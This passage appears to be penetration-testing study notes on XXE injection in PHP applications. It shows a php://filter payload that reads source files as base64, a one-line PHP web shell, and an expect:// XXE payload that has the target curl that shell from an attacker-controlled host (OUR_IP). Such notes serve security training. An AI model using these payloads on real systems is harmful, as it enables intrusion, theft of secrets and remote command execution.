 This would allow us to perform a Whitebox Penetration Test to unveil more vulnerabilities, or at the very least reveal secret configurations like database passwords or API keys.

So, let us see if we can use the same attack to read the source code of the ``index.php`` file, as follows:
![[ry_Rs9APke.png]]
This did not work, as we did not get any content. This happened because the file we are referencing is not in a proper XML format, so it fails to be referenced as an external XML entity.

If a file contains some of XML's special characters (e.g. ``</>/&``), it would break the external entity reference and not be used for the reference. 

Furthermore, we cannot read any binary data, as it would also not conform to the XML format.

Luckily, **PHP** provides wrapper filters that allow us to **base64 encode** certain resources 'including files', in which case the final base64 output should not break the XML format. 

To do so, instead of using ``file://`` as our reference, we will use PHP's ``php://filter/`` wrapper. With this filter, we can specify the ``convert.base64-encode`` encoder as our filter, and then add an input resource (i.e. ``resource=index.php``), as follows:
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```
With that, we can send our request, and we will get the **base64** encoded string of the ``index.php`` file:
![[HJD62cCPkl.png]]

**This trick only works with PHP web apps**. 
### Remote Code Execution with XXE
The easiest method for RCE would be to look for **SSH keys**, or attempt to utilize a hash stealing trick in Windows-based web apps, by making a call to our server. 

We can still be able to execute commands on PHP-based web apps through the `PHP://expect` filter, though this requires the **PHP expect** module to be installed and enabled.

If the XXE directly prints its output **as shown in this section**, then we can execute basic commands as `expect://id`, and the page should print the command output. 
**However**, if we did not have access to the output, or needed to execute a more complicated command (i.e. reverse shell), then the XML syntax may break and the command may not execute.

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app. To do so, we can start by writing a basic PHP web shell and starting a python web server, as follows:
```php
$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
$ sudo python3 -m http.server 80
```
Now, we can use the following XML code to execute a `curl` command that downloads our web shell into the remote server:
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
>[!Note]
We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters lik`|`, `>` and `{` may break the code, so we should avoid using them.
